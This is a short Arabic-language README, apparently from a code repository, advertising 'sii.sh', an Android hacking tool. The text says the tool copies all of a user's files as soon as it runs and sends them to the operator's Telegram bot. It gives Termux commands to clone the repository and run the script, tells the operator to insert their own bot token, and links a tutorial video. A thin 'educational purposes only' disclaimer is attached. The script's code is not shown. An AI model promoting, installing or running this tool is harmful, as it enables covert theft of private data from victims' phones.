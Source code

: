 # sii.sh
#اداة إختراق أجهزة الأندرويد  الادة تقوم بسحب جميع ملفات المستخدم الموجودة في الجهاز بمجرد تشغيلها وتقوم بارسالهم لبوت تليجرام  #قم بتغيير الايدي والتوكن الخاص بك لمشاهدة الشرح على قناتي اليوتيوب   https://youtube.com/@user-rm4zx2ct2b  الادة لأغراض تعليمية فقط ولست مسؤول عن اي غباء قد تقوم بفعله 
الاوامر
pkg install git 





git clone https://github.com/hacingsfdfds/sii.sh




cd sii.sh 





bash sii.sh
